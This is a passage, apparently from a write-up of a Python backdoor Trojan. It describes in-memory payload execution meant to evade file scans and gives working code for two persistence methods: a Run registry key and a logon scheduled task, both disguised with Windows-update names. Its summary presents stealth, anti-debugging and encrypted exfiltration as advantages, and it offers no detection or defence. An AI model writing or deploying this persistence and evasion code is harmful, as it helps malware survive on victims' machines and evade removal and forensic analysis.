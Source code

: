 #### **Memory-Only Execution**  
Payloads are decrypted and executed in memory (e.g., using `exec()`) to avoid writing malicious code to disk, evading file-based scans.  

---

### **4. Persistence Mechanisms**  
#### **Registry Key Manipulation**  
The Trojan adds itself to the `Run` registry key to execute on user login:  
```python  
import winreg as wr  

def add_to_registry():  
    key_path = r"Software\Microsoft\Windows\CurrentVersion\Run"  
    executable_path = sys.executable  # Path to the Trojan's .exe  
    try:  
        key = wr.OpenKey(wr.HKEY_CURRENT_USER, key_path, 0, wr.KEY_WRITE)  
        wr.SetValueEx(key, "WindowsUpdateHelper", 0, wr.REG_SZ, executable_path)  
        wr.CloseKey(key)  
        return True  
    except Exception as e:  
        return False  

add_to_registry()  
```  

#### **Scheduled Task Creation**  
A scheduled task ensures the backdoor restarts if terminated:  
```python  
import subprocess  

def create_scheduled_task():  
    task_name = "WindowsUpdateMaintenance"  
    command = f'schtasks /create /tn "{task_name}" /tr "{sys.executable}" /sc onlogon'  
    subprocess.run(command, shell=True, stdout=subprocess.DEVNULL)  

create_scheduled_task()  
```  

| **Persistence Method** | **Mechanism** | **Advantage** |  
|------------------------|---------------|---------------|  
| Registry Run Key       | Executed on user login | Simple and reliable |  
| Scheduled Task         | Reboots the backdoor if killed | Bypasses manual removal |  

---

### **Integration and Evasion Summary**  
The backdoor combines these elements to achieve:  
- **Persistence**: Multiple mechanisms ensure survival across reboots and user actions.  
- **Stealth**: Process hiding and anti-debugging prevent forensic analysis.  
- **Encryption**: TLS and AES obscure both command traffic and exfiltrated data.  
- **Behavioral Mimicry**: Use of common ports and legitimate-looking network patterns avoids suspicion.  
